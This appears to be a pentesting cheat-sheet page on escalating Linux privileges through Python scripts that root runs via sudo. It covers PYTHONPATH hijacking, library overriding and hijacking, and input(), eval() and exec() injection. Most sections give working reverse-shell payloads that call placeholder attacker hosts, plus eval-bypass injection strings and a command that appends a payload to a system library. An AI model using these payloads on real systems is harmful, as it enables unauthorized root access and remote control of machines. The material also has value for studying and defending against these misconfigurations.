 # Python

## Theory

Python scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, python scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### PythonPath Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights and `SETENV`.

```bash
sudo -l
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/scripts/example.py
```

With `SETENV`, we can change PYTHONPATH when executing the script, and insert malicious script to the module which is imported in the script.

First, we can check what module is imported in the python script (e.g. `/opt/scripts/example.py` here).

```python
import random
print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can forge the imported module

```bash
$ cat /tmp/random.py

import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

Then run the python script with updating PYTHONPATH in the remote machine.

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/scripts/example.py
```

{% hint style="info" %}
By setting `PYTHONPATH=/tmp/`, the python script will import modules from `/tmp/` directories so the "random" module is imported from /tmp/random.py.
{% endhint %}
{% endtab %}
{% endtabs %}

### Python Library Overriding

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If the Python script contains a **module that can be modified** by current user, we can inject arbitrary code into the module.

```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Find writable python modules

```bash
$ find / -name "*.py" -writable 2>/dev/null
/usr/lib/python3.11/random.py
```

We can check if modules on which we have write access are imported by the script

```python
import random
print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can append our payload at the end the of the module

```bash
$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING_IP",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' >> /usr/lib/python3.11/random.py
```

Then run the python script with sudo

```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}

### Python Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If we can **write on the folder containing the script**, then python will prioritize the execution of this module instead of the usual path

```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Check what modules are imported by the script

```python
import random
print(random.randint(1, 8))
```

Check write access

```bash
$ touch /opt/scripts/random.py
```
{% endtab %}

{% tab title="Exploit" %}
Write the malicious module on the same folder as the script

```bash
$ cat /opt/scripts/random.py

#!/usr/bin/bash
import os
os.system('bash -c "/bin/bash -i >& /dev/tcp/<ATTACING_IP>/9001 0>&1"')
```

Then run the python script with sudo

```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}

### OS Commands in input()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `input` function and if it's **python2.x**, the input() function is equivalent to `eval(raw_input)`. Then we can execute arbitrary code.

```bash
sudo -l
    (root): /usr/bin/python2.7 /opt/scripts/example.py
```

Check that the input command is used

```python
compute = input('\nYour expression? => ')
```
{% endtab %}

{% tab title="Exploit" %}
We can enter an OS commands in the input function

```bash
$ sudo /usr/bin/python3 /opt/scripts/example.py

Enter Your expression? => __import__('os').system('id')
#or
Enter Your expression? => __import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}

### OS Commands in Eval() and Exec()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `eval()` or `exec()` method, then it's vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Check that one of this commands is used, examples:

```python
#With eval
eval(text)
eval(f"5 + {num}")
print ("Result =", eval(comp))

#With exec
code = input('What command(s) in python did you learn today?')
exec(code)
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code.

```python
__import__('os').system('id')

#Bypass another expression in eval
),__import__('os').system('id')
'),__import__('os').system('id')
},__import__('os').system('id')
),__import__('os').system('id')#

#Example of a ReverseShell
__import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}

### Format String Exploit

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/" %}

{% embed url="https://mikadmin.fr/blog/linux-privilege-escalation-python-library-hijacking/" %}

{% embed url="https://www.stackhawk.com/blog/command-injection-python/" %}
